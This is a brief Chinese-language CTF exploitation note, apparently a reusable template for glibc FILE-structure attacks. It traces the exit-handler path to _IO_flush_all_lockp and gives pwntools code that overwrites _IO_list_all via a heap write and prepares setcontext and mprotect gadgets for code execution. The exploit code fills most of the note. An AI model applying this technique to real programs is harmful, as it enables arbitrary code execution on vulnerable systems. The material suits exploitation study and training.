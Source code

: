 ### 总结

‍

### 调试过程

‍

‍

exit(-1) 触发

‍

​`exit`​ -> `__run_exit_handlers`​ -> `_IO_cleanup  (call   qword ptr [rbx])`​ -> `_IO_flush_all_lockp`​

‍

‍

‍

### 板子

```python
libc_base = mr - 2202848
_IO_list_all = libc_base +  libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext = libc_base + libc.sym['setcontext']


def dbg():
    ls(hex(mr))
    ls(hex(libc_base))
    ls(hex(_IO_list_all))
    ls(hex(heap_base))
    gdb.attach(io)

# 2352
pay = p64(mr) * 2
#pay += p64(heap_base + 2352)+p64(_IO_list_all-0x20)
pay += p64(_IO_list_all-0x20) * 2
pay += b'\n'
edit(1,pay)
##pause()
add(6,0x538)

libc = ELF(libelf)
libc.address = libc_base
libc_rop = ROP(libc)

mprotect   = libc.sym['mprotect']
setcontext = libc.sym['setcontext']
RCE = setcontext + 61
ls(hex(mprotect))
## rdx + 0xa8
#ogg = [0x50a37,0xebcf1,0xebcf5,0xebcf8]
#RCE  = ogg[2]+ libc_base
#print(hex(RCE))
#
#
#libc.address = libc_base
#libc_rop = ROP(libc)

setcontext_rcx = libc_base + 0x000000000013cf8d
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
```